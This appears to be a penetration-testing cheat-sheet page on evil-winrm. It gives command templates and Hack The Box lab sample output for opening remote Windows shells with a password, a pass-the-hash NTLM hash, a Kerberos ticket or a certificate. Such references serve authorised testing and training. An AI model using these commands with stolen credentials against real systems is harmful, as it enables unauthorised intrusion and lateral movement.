 ```yaml
---
title: "evil-winrm"
date: 2024-7-27
tags: ["Kerberos", "Pass-The-Hash", "RCE", "Evil-Winrm", "Windows", "Pass-The-Ticket", "Pass-The-Cert"]
---
```


### Connection Methods

{{< tab set1 tab1 active >}}Password{{< /tab >}}
{{< tab set1 tab2 >}}Hash{{< /tab >}}
{{< tab set1 tab3 >}}Kerberos{{< /tab >}}
{{< tab set1 tab4 >}}crt & key{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
evil-winrm -i <TARGET> -u <USER> -p '<PASSWORD>'
```

```console {class=sample-code}
$ evil-winrm -i 127.0.0.1 -u dr.zaiuss -p 'qwe123QWE!@#'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Dr.Zaiuss\Documents>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
evil-winrm -i <TARGET> -u <USER> -H <HASH> 
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Step 1: Edit '/etc/krb5.conf' (All in uppercase)

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console {class="sample-code"}
[libdefaults]
    default_realm = WINDCORP.HTB

[realms]
    WINDCORP.HTB = {
        kdc = HOPE.WINDCORP.HTB:88
        admin_server = HOPE.WINDCORP.HTB
        default_domain = WINDCORP.HTB
    }
    
[domain_realm]
    .domain.internal = WINDCORP.HTB
    domain.internal = WINDCORP.HTB
```

```console
# Step 2: export .ccache
export KRB5CCNAME=<CCACHE>
```

```console {class="sample-code"}
$ export KRB5CCNAME=winrm_user.ccache
```

```console
# Step 3: Connect
sudo ntpdate -s <DC> && evil-winrm -i <TARGET> -r <DOMAIN>
```

```console {class="sample-code"}
$ evil-winrm -i dc.absolute.htb -r absolute.htb
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents> 
```

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

```console
evil-winrm -i <TARGET> -S -k auth.key -c auth.crt
```

{{< /tabcontent >}}
